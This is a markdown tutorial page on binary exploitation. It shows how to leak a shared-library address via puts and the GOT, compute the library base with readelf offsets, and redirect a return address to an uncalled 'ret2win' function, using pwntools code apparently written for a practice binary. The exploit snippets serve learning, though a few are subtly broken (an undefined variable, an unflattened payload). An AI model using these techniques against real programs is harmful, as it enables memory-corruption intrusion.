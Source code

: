 # Leak an Address

Use `printf` or `puts` to print out a function address from libc.  
Can then calculate the offset of that function from the base.  
Calculate the offset of a desired function and add that to the libc base,  
you can then call that function directly.  

`readelf -s <libc_path>` will show function offsets.  

## Address Leak to Call a Non-Imported Function

*Setup: a desired function is in a shared library but is not called in the binary.*  
*The binary calls a different function from the shared library*  

Use `readelf` to determine the target functions offset from the library base:  

```bash
readelf -s libpivot32.so
```

Then find the offsets for the target function and the foothold function.  

Use pwntools to load some known addresses:  

```python3
from pwn import *
elf = ELF(".vuln")

foothold_plt = p32(elf.plt.foothold_function)   # Function from the shared library
foothold_got = p32(elf.got.foothold_function)   # Function from the shared library
puts_plt = p32(elf.plt.puts)                    # function we can use to cause a leak
main_ptr = p32(elf.symbols.main)                # needed to rerun the program and maintain address values

foothold_offset = 0x77d
ret2win_offset = 0x974
```

Leak the address:  

```python3
addr_leak = ([
    foothold_plt,   # Populate the Global Offset Table with addresses. The inmported function from the shared library is used.
    puts_plt,       # Use puts to output the address of foothold_function in the Global Offset Table
    main_ptr,       # Run main again so that we can provide a new payload to call the target function
    foothold_got    # Argument for puts, the address to leak
])
io.sendline(addr_leak)
```

Receive the output of `puts` and carve out the address:  

```python3
io.recvuntil(b"whatever\n")   # bytes preceeding the leak
leaked_addresses = io.recv()    # receive data until the next input. Likely to contain more than 1 address -> the first is the one we want
foothold_leak = unpack(leaked_addresses[:4])    # read the first 4 bytes (32bit address. [:8] for 64bit addresses

# 64 bit variation
leak = address[:6]
leak += b"\x00\x00"
print(f"Leaked address: {hex(unpack(leak))}")
```

Calculate the offset to the desired function by first calculating the shared libraries base,  
then adding the offset to the desired function:  

```python3
lib_base = foothold_leak - foothold_offset    # subtracting the offset to foothold_function (found by readelf) from the leaked foothold_function address in the GOT
ret2win_addr = lib_base + ret2win_offset      # adding the libraries base address and the offset to the target function, resulting in the actual address
```

The target functions address can now be placed on the stack, where a return address is overwritten:  

```python3
win = flat([
    b"A" * offset,
    ret2win_addr
])
io.sendline(win)
```
